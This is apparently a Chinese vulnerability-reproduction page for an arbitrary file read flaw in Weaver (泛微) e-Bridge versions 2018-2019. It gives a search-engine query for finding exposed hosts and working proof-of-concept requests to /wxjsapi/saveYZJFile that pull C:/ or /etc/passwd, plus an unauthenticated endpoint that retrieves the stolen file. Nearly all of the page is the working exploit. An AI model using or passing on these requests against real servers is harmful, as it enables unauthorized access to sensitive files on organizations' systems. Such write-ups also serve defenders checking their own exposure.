 # 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

<a-checkbox checked>泛微云桥 e-Bridge 2018-2019 多个版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="泛微云桥e-Bridge"</a-checkbox></br>

## 漏洞复现

```
# Windows验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-1.png)



成功返回 `id值`,说明含有此漏洞

<a-alert type="success" message="调用查看文件接口访问 /file/fileNoLogin/id值" description="" showIcon>
</a-alert>
<br/>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-2.png)



### 

```
# Linux验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-3.png)



成功返回 `id值`,说明含有此漏洞

调用查看文件接口访问 `/file/fileNoLogin/id值`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-4.png)